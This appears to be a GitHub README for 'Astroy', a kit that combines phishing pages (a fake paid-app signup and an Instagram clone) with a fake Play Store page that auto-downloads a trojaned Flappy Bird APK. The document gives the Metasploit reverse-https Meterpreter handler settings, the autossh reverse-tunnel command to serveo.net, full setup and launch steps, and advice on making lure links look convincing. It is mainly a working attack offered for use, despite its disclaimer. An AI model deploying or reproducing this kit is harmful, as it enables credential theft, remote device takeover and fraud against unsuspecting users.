






# Astroy  

[]()
[]()
[]()
[]()
[]()
[]()
[]()

> Astroy is a collection of templates outsourced from different projects, combined to launch a powerful, attractive and easy to pull off a two-in-one phishing and Android malware distribution campaign.


I made this as a tool without distribution in mind, and did not think I would come to open-source it. As a result, a LOT of assumptions have been made when coding this, and it's gonna take you a bit of tweaking if the OS you're running isn't configured how the tool needs it to be.

## Why Astroy?


We live in a generation where, although scores of people would fall for most get-rich-quick scams, the effort required to social engineer them into actually compromising themselves is tremendous. Astroy sells itself as an ordinary website that pays users to install and use its Android app - an obviously untrue claim. It instead gathers the credentials of anyone who signs up for it, and provides a malicious ``APK`` file (a Flappy Bird game laced with a reverse-https payload) for the unsuspecting user to download. If the user runs the malicious game, the attacker will gain a Meterpreter session, effectively pulling off a successful double penetration (no pun intended). The template below, an identical clone of the Google Play Store, is the last page that the user is presented with, where the malicious APK file automatically downloads itself then quickly redirects to the official Play Store site, making the user actually believe the genuinity of the app he is about to install:


The phishing templates comprise a normal sign up page, and an Instagram clone. The reason I did not add more popular templates like Facebook and Google is because their designs weren't as appealing as Instagram's. Special shout out to [thelinuxchoice](https://github.com/thelinuxchoice) for the Instagram phishing template - I modified their version a bit, removed their backend and added mine.


The Flappy Bird game is hardcoded with the LHOST ``serveo.net`` and LPORT ``2345``, therefore, anyone can use it with these values. On Metasploit, run ``set lhost localhost`` and ``set lport 2345`` and ``set payload android/meterpreter/reverse_https`` to configure the multi handler. Just make sure you run ``autossh -tt -M 0 -o 'ServerAliveInterval 30' -o 'ServerAliveCountMax 3' -R 2345:localhost:2345 serveo.net`` to forward TCP connections to your machine, and your payload will connect over WAN, only ever disconnecting if you terminate it.


This tool is capable of collecting emails, full names and passwords, alongside Instagram username and password combos. It also collects the user's IP address, user agents, type of device and logs the time when the user tried to access the pages. 



Astroy only serves as a proof of concept on what black hat hackers can achieve if they get creative. I take no responsibility whatsoever for any usage of the tool for any illegal activities by anyone else.

## Assumptions

Because I initially coded this without distribution in mind, it was made without consideration for other Linux OS's. As such, this tool is made with the assumption that:

1. You're system has Python 3. To set up most of the things that the tool needs, you'll need to run the main python file (``setup.py``) with Python 3. Also, the ``index.php`` files in the directories ``download`` and ``account/instagram`` make calls to Python 3 to run ``retrieve.py`` and ``del.py`` respectively. Depending on how you invoke your Python 3 (for example, I run files like this - ``python3 example.py`` - because my system has two Python versions installed), you might need to alter the default invocation in the ``index.php`` files specified above. Lastly, every Python file in Astroy has a shebang that invokes the Python 3 version installed on my system - this assumes that your Python 3 is located at ``/usr/bin/python3``. Change this line as necessary.

2. Your system has ``Apache2`` and that the default directory for serving web pages is ``/var/www/html``. It also assumes that you have correctly set up ``PHP`` with Apache so that any PHP files are correctly rendered by Apache when its webserver is started. The default Apache webserver listens on port `80`, and this tool abides by that.

3. Your system has ``PHP``. I recommend version ``7``, because I haven't tested this tool with other versions of PHP. 

4. Your system has ``OpenSSH`` and ``AutoSSH``. These are used to establish connections to [Serveo](http://serveo.net), which forwards ports and allows your locally served web pages to be available publicly.

5. You will clone all the main files to ``/var/www/html``, or copy them to that directory. This means that the directories ``account``, ``download`` and  ``img``, plus the files ``index.php``, ``requirements.txt`` and ``setup.py`` will all be inside the directory ``/var/www/html``. This is the base directory, where Apache will serve ``index.php`` as the landing page, under the default url ``https://astroy.serveo.net``. The directories ``account``, ``account/instagram`` and ``download`` will all serve their files through PHP servers (either on custom ports or the default ones if none are provided as arguments), and will have the urls ``https://account.serveo.net``, ``https://app.serveo.net`` and ``https://download.serveo.net`` respectively. For the sake of avoiding conflict, be sure there are no existing files in ``/var/www/html`` before you copy or download Astroy's files to this directory.

6. You are running Linux, as root. I coded this for Kali, but with the right tweaking, it will run on any Linux OS smoothly. 

7. It will be totally misused. With the rise of noob hackers and experienced black hats looking for easy scripts for use in their  nefarious activities, this tool is bound to act as an asset for breaking the law. Since [Serveo](http://serveo.net) blocks phishing subdomains as soon as the subdomain is reported, the urls mentioned in ``Assumption 5`` will most likely be blocked after a while, or flagged as malicious - yet they are hardcoded in the PHP files, without any provided means to change them via the command line. The assumption this tool makes is that you'll have to edit each PHP file individually, find any anchor links pointing to the default subdomains and manually change them to the desired subdomains.

## Pre-requisites

You basically need [``Apache2``](https://www.google.com/amp/s/likegeeks.com/linux-web-server/amp/), [``OpenSSH``](https://www.google.com/amp/s/www.tecmint.com/install-openssh-server-in-linux/amp/), [``PHP``](https://www.tutorialspoint.com/php/php_installation_linux.htm) and [``AutoSSH``](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-autossh/).

Tap each package to get an idea of how the installation and configuration procedures are like (I recommend consulting your package managers). For Kali Linux users (and Ubuntu) you can get the packages installed using this one-liner:

```sh
apt-get install ssh autossh php apache2
```



Astroy offers an additional function that lets you email the generated link to your target's address. To do that, it uses the module [``Yagmail``](https://github.com/kootenpv/yagmail) for mailing, and [``keyring``](https://pypi.org/project/keyring/), which safely stores your password instead of including it in the source file. For this to work, you need to install the modules (this will be installed in the requirements part) and save your credentials using the Python interpreter. Invoke it, then enter these statements:

```python
Python 3.6.5rc1 (default, Mar 13 2018, 15:23:44)
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import keyring, yagmail
>>> yagmail.register("yourGmailAddress@gmail.com","yourGmailPassword")
```



Do note that this is only required if you'd want to send your target an email containing the link. Otherwise, you can disregard it, however if you choose to send an email without setting the credentials it needs it won't work. Be sure to toggle the switch that allows your Gmail account to permit less secure apps [here](https://www.google.com/settings/security/lesssecureapps), otherwise authentication will fail.

Finally, you need to make an initial connection to ``serveo`` so that it is added permanently to the list of known hosts. You can do that by running:

```sh
ssh serveo.net
```

It should then ask you ask whether you're sure about connecting to ``serveo``. Hit Enter or type yes then wait a second or two, and it should say something like:

```sh
The authenticity of host 'serveo.net (159.89.214.31)' can't be established.
RSA key fingerprint is SHA256:07jcXlJ4SkBnyTmaVnmTpXuBiRx2+Q2adxbttO9gt0M.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'serveo.net,159.89.214.31' (RSA) to the list of known hosts.
Press g to start a GUI session and ctrl-c to quit.
```

Press Ctrl-c and that'll be it. 



Only after you are sure you've got things set up and working correctly should you proceed with the next step.

## Installation

Clone the repository:

```sh
git clone https://github.com/briancanspit/Astroy.git
```

Get into the cloned directory and list its files:

```sh
cd Astroy && ls -l
```

Copy all the files in the directory to Apache's base directory:

```sh
cp -r * /var/www/html
```

You can then list the contents of the ``html`` directory to verify all the files were copied:

```sh
ls -l /var/www/html
```



Notice that in the listing above, the root account has sole ownership of the all those files. Since we'll be relying on Apache to create, open and modify files on the fly, it will need to have ownership of the files too. 

## Setting Things Up

Get into Apache's base directory as needed by the tool:

```sh
cd /var/www/html
```

You need to change ownership of all the files here recursively, to give Apache ownership. Run:

```sh
chown -R www-data *
```

List the files again to confirm the change in ownership occurred:

```sh
ls -l
```



Depending on how you invoke Python 3 on your system, run this command to install the requirements needed by Python:

```python
python3 -m pip install -r requirements.txt
```


Finally, run the setup script. This simply checks whether you have internet, whether the packages it needs are installed, whether you provided any ports as arguments and finally creates an ``astroy`` file at ``/usr/bin/`` which can be run globally from any directory. This setup script can be run without arguments like this:

```python
python3 setup.py
```


Running it without any arguments makes the script default to using the default ports, which are ``80``, ``222``, ``333`` and ``444``. To provide your own arguments (which should be exactly 4), run the script like this (assume you want the ports to be ``80``, ``555``, ``777`` and ``999``):

```python
python3 setup.py 80 555 777 999
```

This tool assumes the first command line argument will always be ``80``, which is Apache's default listening port. If you specify it otherwise, the script will disregard your arguments and default to the ports specified inside the file itself. Assuming that everything goes well, your screen's output should resemble mine's:

[](https://asciinema.org/a/246233)

## Usage

Now, if the file ``setup.py`` exited without errors, there should exist a file called ``astroy``. Type the following to see the full path of the created file:

```sh
type astroy
```

The output will reveal that it exists in the directory ``/usr/bin``. Since it is an executable, you'll need to confirm that it has executable permissions set before you can actually run the file itself globally. Run:

```sh
ls -l "$(type -a astroy|cut -d ' ' -f 3)"
```

Your output should resemble this:


Now that we're sure it can be executed, invoke it like below, and it will start the relevant servers for you:

```sh
astroy
```

Your final output should resemble the one below:

[](https://asciinema.org/a/246235)

And you are live! All you need to do is send your target the landing page link, that is, ``https://astroy.serveo.net`` (there are tons of ways you could do this). Note that Serveo makes the link accessible through both ``http`` and ``https``. Since ``https`` is more appealing and convincing, all the anchor links point to ``https`` subdomains. Your job is to make sure you distribute the first link as ``https://astroy.serveo,net``, not as ``http://astroy.serveo.net`` (though using the latter is entirely up to you).

## Credits

1. Instagram Phishing Template - [thelinuxchoice](https://github.com/thelinuxchoice)

2. Google Play Store Template - [trustedsec](https://github.com/trustedsec)

3. Normal Sign Up Template - [Joefrey](https://colorlib.com/wp/template/landerz/)

4. Astroy Main Landing Page - [Beefree](https://beefree.io/templates/)

## Meta

Shoot me a message on Twitter- [@briancanspit](https://twitter.com/briancanspit)

Follow me on Instagram- [@briancanspit](https://instagram.com/briancanspit)

Or email me - briancanspit@gmail.com

Distributed under the MIT license. See ``LICENSE`` for more information.

## Donate

[]()

If you feel like my tool has been helpful or educative to you in any way, below's my bitcoin address:

``1Po7v8gcwsfSxPrtNH1KgfmmV6hgYiqBTb``

Feel free to donate towards the development of more tools like this by me. Thanks in advance! 

